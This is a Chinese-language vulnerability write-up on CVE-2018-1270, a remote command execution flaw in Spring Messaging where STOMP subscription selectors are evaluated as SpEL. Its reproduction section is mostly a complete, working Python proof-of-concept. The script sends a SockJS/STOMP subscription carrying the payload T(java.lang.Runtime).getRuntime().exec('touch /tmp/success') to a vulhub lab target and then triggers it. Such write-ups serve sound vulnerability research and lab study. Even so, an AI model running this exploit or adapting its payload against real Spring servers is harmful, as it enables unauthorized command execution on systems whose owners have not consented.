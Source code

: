 # （CVE-2018-1270）Spring Messaging 远程命令执行漏洞

## 一、漏洞简介

spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

## 二、漏洞影响

Spring Java Framework < 5.0

## 三、复现过程

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流

用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信所以我们可以使用http来复现漏洞，称之为“降维打击”。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

* 基础地址，在vulhub中为http://your-ip:8080/gs-guide-websocket
* 待执行的SpEL表达式，如T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')
* 某一个订阅的地址，如vulhub中为：/topic/greetings
* 如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向/app/hello发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

CVE-2018-1270.py


```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

执行：

![](images/2020_06_13/15920625626200.png)


进入容器docker-compose exec spring bash，可见/tmp/success已成功创建：

![](images/2020_06_13/15920625701315.png)
